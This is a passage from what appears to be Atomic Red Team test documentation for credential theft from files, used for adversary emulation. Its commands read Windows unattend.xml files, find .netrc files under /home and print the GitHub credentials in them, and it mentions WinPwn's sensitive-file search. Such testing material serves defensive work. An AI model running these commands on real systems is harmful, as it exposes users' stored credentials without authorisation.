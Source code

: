 **Supported Platforms:** Windows


**auto_generated_guid:** 367d4004-5fc0-446d-823f-960c74ae52c3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\Windows\Panther\unattend.xml
type C:\Windows\Panther\Unattend\unattend.xml
```






<br/>
<br/>

## Atomic Test #6 - Find and Access Github Credentials
This test looks for .netrc files (which stores github credentials in clear text )and dumps its contents if found.

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** da4f751a-020b-40d7-b9ff-d433b7799803





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | Path to search | string | /home|


#### Attack Commands: Run with `bash`! 


```bash
for file in $(find #{file_path} -type f -name .netrc 2> /dev/null);do echo $file ; cat $file ; done
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - sensitivefiles
Search for sensitive files on this local system using the SensitiveFiles function of WinPwn

**Supported Platforms:** Windows
